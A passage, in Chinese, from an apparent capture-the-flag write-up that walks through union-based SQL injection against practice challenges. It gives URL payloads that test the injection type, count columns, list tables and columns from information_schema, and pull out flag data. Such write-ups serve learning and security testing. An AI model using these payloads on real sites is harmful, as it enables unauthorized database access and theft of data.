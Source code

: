 #### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1' ORDER BY 3 %23  # 页面正常，显示第一条数据'
?id=1' ORDER BY 4 %23  # 页面报错，确定列数为3列'

联合查询注入
?id=0' UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据'

查询当前数据库版本和数据库名
?id=0' UNION SELECT 1,version(),database() %23    # 页面回显数据'

查询当前数据库下的所有表名
?id=0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_heheh' %23                #'

查询该表中所有的列名
?id=0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='f111ag' %23                #'

查询实际数据
?id=0' UNION SELECT 1,2,group_concat(f1ag) FROM f111ag %23                     #'
```

<br>
### guess3

#### 确定注入点
直接开始测试
```sql
?id=2-1   # 页面没有数据，注入失败，猜测不是数字型
?id=1' %23  # 页面返回正常的数据，可能是字符型，也可能是搜索型'
?id=0' or 1=2 %23  # 页面返回ID=10的数据，那么证明必定是搜索型，因为前面有%'

实际的SQL语句必定是
SELECT  * FROM users WHERE id LIKE '%0' or 1=2 %23   # ID=10 满足条件

```
好的，可以直接开始得到数据的流程了

#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=a' ORDER BY 3 %23  # 页面正常，显示第一条数据'
?id=a' ORDER BY 4 %23  # 页面报错，确定列数为3列'

联合查询注入
?id=a' UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据'

查询当前数据库版本和数据库名
?id=a' UNION SELECT 1,version(),database() %23    # 页面回显数据'

查询当前数据库下的所有表名
?id=a' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_lalal' %23                #'

查询该表中所有的列名
?id=a' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='fflaglag' %23                #'

查询实际数据
?id=a' UNION SELECT 1,2,group_concat(fflaglag) FROM fflaglag %23                     #'
```